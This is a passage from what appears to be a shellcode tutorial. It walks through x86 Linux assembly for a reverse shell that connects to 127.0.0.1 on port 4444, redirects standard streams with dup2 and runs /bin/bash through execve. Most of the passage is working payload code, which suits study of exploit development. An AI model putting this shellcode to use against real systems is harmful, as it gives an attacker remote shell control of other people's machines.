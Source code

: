 ```nasm
push eax            ; sin.addr (127.0.0.1)
push word 0x5c11    ; Port 4444
push word 0x2       ; AF_INET
mov esi, esp
```

The reverse shellcode is simpler than a bind one since we only need to call `connect` and the server will initiate a connection to the attacker machine.

```nasm
; Connect socket
xor eax, eax
xor ebx, ebx
mov al, 0x66        ; sys_socketcall
mov bl, 0x3         ; SYS_CONNECT
push 0x10           ; socklen_t addrlen
push esi            ; const struct sockaddr *addr
push edi            ; int sockfd
mov ecx, esp
int 0x80
```

The same `dup2` function that is used with the bind shellcode is used here to redirect input & ouput then execute a shell with `execve`. The `/bin/bash`  string is pushed in reverse order on the stack but since the string needs to be null terminated, we will null out the `A` byte at offset `ESP + 11`.

```nasm
; Redirect STDIN, STDOUT, STDERR to socket
xor ecx, ecx
mov cl, 0x3         ; counter for loop (stdin to stderr)
mov ebx, edi        ; socket fd

dup2:
mov al, 0x3f        ; sys_dup2
dec ecx
int 0x80            ; sys_dup2
inc ecx
loop dup2

; execve()
xor eax, eax
push 0x41687361     ; ///bin/bashA
push 0x622f6e69
push 0x622f2f2f
mov byte [esp + 11], al
mov al, 0xb
mov ebx, esp
xor ecx, ecx
xor edx, edx
int 0x80
``` 
